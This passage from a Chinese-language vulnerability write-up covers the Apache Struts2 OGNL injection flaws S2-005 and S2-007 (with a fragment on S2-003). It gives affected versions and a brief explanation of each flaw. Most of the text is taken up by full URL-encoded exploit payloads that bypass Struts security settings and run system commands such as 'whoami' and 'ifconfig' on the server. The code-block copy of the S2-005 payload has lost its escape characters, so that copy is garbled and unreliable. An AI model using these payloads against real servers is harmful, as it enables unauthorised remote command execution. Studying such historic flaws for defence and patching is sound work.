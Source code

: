 Struts2会将HTTP的每个参数名解析为ognl语句执行（可理解为Java代码）。ognl表达式通过#来访问struts的对象，Struts框架通过过滤#字符防止安全问题，然后通过unicode编码（u0023）或8进制（43）即绕过了安全限制。

**S2-005**

受影响版本：低于Struts 2.2.1

对于S2-003漏洞，官方通过增加安全配置（禁止静态方法调用和类方法执行等）来修补，安全配置被绕过再次导致了漏洞。

EXP:[](http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&amp;%28b%29%28%28%27%5C43context%5B%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5D%5C75false%27%29%28b%29%29&amp;%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&amp;%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&amp;%28h%29%28%28%27%5C43myret%5C75@java.lang.Runtime@getRuntime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&amp;%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&amp;%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5B51020%5D%27%29%28d%29%29&amp;%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&amp;%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&amp;%28m%29%28%28%27%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&amp;%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29)

```
http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?%28%2743_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&amp;%28b%29%28%28%2743context[%27xwork.MethodAccessor.denyMethodExecution%27]75false%27%29%28b%29%29&amp;%28%2743c%27%29%28%28%2743_memberAccess.excludeProperties75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&amp;%28g%29%28%28%2743mycmd75%27whoami%27%27%29%28d%29%29&amp;%28h%29%28%28%2743myret75@java.lang.Runtime@getRuntime%28%29.exec%2843mycmd%29%27%29%28d%29%29&amp;%28i%29%28%28%2743mydat75new40java.io.DataInputStream%2843myret.getInputStream%28%29%29%27%29%28d%29%29&amp;%28j%29%28%28%2743myres75new40byte[51020]%27%29%28d%29%29&amp;%28k%29%28%28%2743mydat.readFully%2843myres%29%27%29%28d%29%29&amp;%28l%29%28%28%2743mystr75new40java.lang.String%2843myres%29%27%29%28d%29%29&amp;%28m%29%28%28%2743myout75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&amp;%28n%29%28%28%2743myout.getWriter%28%29.println%2843mystr%29%27%29%28d%29%29
```

执行的“whoami”命令，将会直接写入到showcase.action文件中，并下载到本地。

**S2-007**

受影响版本：低于Struts 2.2.3.1

S2-007和S2-003、S2-005的漏洞源头都是一样的，都是struts2对OGNL的解析过程中存在漏洞，导致黑客可以通过OGNL表达式实现代码注入和执行，所不同的是:

1. S2-003、S2-005: 通过OGNL的name-value的赋值解析过程、#访问全局静态变量(AOP思想)实现代码执行

2. S2-007: 通过OGNL中String向long转换过程实现代码执行

假设hello.java中定义了一个整数long id，id来自于用户输入，传递一个非整数给id导致错误，struts会将用户的输入当作ongl表达式执行，从而导致了漏洞,因此要想利用此漏洞，程序中必须有可以接受外界输入的id等参数。

EXP:

```
http://x.x.x.x/hello.action?id='%2b(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ifconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[500],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))%2b'
```
